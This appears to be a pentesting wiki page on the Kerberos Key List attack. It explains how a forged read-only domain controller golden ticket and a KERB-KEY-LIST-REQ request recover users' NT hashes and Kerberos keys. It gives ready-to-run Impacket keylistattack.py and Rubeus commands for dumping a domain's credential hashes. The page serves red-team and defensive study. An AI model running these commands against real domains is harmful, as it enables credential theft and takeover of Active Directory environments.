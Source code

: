 ## Theory
It is possible to retrieve the long term secret of a user (e.g. NT hash) by sending a `TGS-REQ` (service ticket request) to the KRBTGT service with a `KERB-KEY-LIST-REQ` message type. This was introduced initially to support SSO with legacy protocols (e.g. NTLM) with Azure AD on on-premises resources.

An attacker can abuse this by forging a RODC golden ticket for a target user and use it to send a `TGS-REQ` to the KRBTGT service with a padata filed value of 161 (`KERB-KEY-LIST-REQ`). Knowing the KRBTGT key of the RODC is required here. The TGS-REP will contain the long term secret of the user in the `KERB-KEY-LIST-REP` key value.
### Usecase
This feature was legitimately introduced to support legacy authentication protocols (like NTLM or digest auth) in hybrid environments, where:

- Azure AD syncs with on-prem AD.
- Clients may not have access to the DC but still need secrets to authenticate locally.

So, a domain controller can provide a user’s secret keys to trusted services (e.g., an RODC) through a KERB-KEY-LIST-REQ message.
!!! note "Prerequisites"
    - Attacker compromises the KRBTGT account password hash of a Read-Only Domain Controller (RODC).
    - Attacker knows the target user's username (e.g., a domain admin).
### Attack path
- Forge a Golden Ticket using the `RODC’s KRBTGT` hash — this impersonates the RODC.

- Set the `ticket’s ServiceName` to "krbtgt" (requesting a TGS for the TGT service).

- Set the `padata` field to type 161 (`KERB-KEY-LIST-REQ`).

- Send `TGS-REQ` to the KDC (using forged RODC ticket).

- You are now acting as the RODC, asking for the user’s key material.

- Receive TGS-REP, which includes:

    - KERB-KEY-LIST-REP: Contains the target user's long-term secret keys, including:

        - NT hash

        - Kerberos keys (AES128, AES256, etc.)

## Exploit
=== "UNIX-like"
    From UNIX-like systems, the Impacket's [keylistattack.py](https://github.com/fortra/impacket/blob/master/examples/keylistattack.py) tool (Python) can be used for this purpose.
    ```bash
    #Attempt to dump all the users' hashes even the ones in the Denied list
    #Low privileged credentials are needed in the command for the SAMR enumeration
    keylistattack.py -rodcNo "$KBRTGT_NUMBER" -rodcKey "$KRBTGT_AES_KEY" -full "$DOMAIN"/"$USER":"$PASSWORD"@"$RODC-server"

    #Attempt to dump all the users' hashes but filter the ones in the Denied list
    #Low privileged credentials are needed in the command for the SAMR enumeration
    keylistattack.py -rodcNo "$KBRTGT_NUMBER" -rodcKey "$KRBTGT_AES_KEY" "$DOMAIN"/"$USER":"$PASSWORD"@"$RODC-server"

    #Attempt to dump a specific user's hash
    keylistattack.py -rodcNo "$KBRTGT_NUMBER" -rodcKey "$KRBTGT_AES_KEY" -t "$TARGETUSER" -kdc "$RODC_FQDN" LIST
    ```
=== "Windows"
    From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for this purpose.
    ```bash
    # 1. Forge a RODC Golden ticket
    Rubeus.exe golden /rodcNumber:$KBRTGT_NUMBER /flags:forwardable,renewable,enc_pa_rep /nowrap /outfile:ticket.kirbi /aes256:$KRBTGT_AES_KEY /user:USER /id:USER_RID /domain:domain.local /sid:DOMAIN_SID

    # 2. Request a TGT via TGS-REQ request and retrieve the NT hash of the user in the response
    Rubeus.exe asktgs /enctype:aes256 /keyList /ticket:ticket.kirbi /service:krbtgt/domain.local
    ```